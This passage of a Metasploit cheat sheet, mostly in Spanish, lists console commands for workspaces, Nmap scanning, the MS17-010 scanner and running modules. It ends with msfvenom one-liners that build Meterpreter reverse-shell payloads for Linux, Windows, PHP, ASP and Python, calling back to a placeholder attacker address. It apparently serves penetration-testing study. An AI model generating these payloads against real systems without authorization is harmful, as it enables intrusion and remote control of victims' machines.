 13. **`workspace -a <nombre>`**
    - Agrega un nuevo espacio de trabajo.

14. **`workspace -d <nombre>`**
    - Elimina un espacio de trabajo existente.

15. **`db_nmap <objetivo>`**
    - Realiza un escaneo Nmap y guarda los resultados en la base de datos de Metasploit.

16. **`hosts`**
    - Muestra información sobre los hosts almacenados en la base de datos.

17. **`services`**
    - Muestra información sobre los servicios en los hosts almacenados.

18. **`hosts -R`**
    - Añade la información del host a los parámetros de RHOSTS.

19. **`use auxiliary/scanner/smb/smb_ms17_010`**
    - Utiliza el módulo de escaneo de vulnerabilidades MS17-010.

20. **`show options`**
    - Muestra las opciones configuradas para el módulo activo.

21. **`run` o `exploit`**
    - Lanza el exploit o ejecuta el módulo activo.
   
22. **`info`
    - You can use the info command for any module to have a better understanding of its use and purpose.

22. **`vnc_login`
    - can help us find login details for the VNC service.

23. **`Msfvenom`
    - allows you to generate payloads.
   
24. **`msfvenom --list formats`
    - You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python).

25. **`Linux Executable and Linkable Forma`
    - `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
   
26. **`Windows`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

27. **`PHP`
    - `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

28. **`ASP`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

29. **`Python`
    - `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

Typing help on any Meterpreter session (shown by meterpreter> at the prompt) will list all available commands.


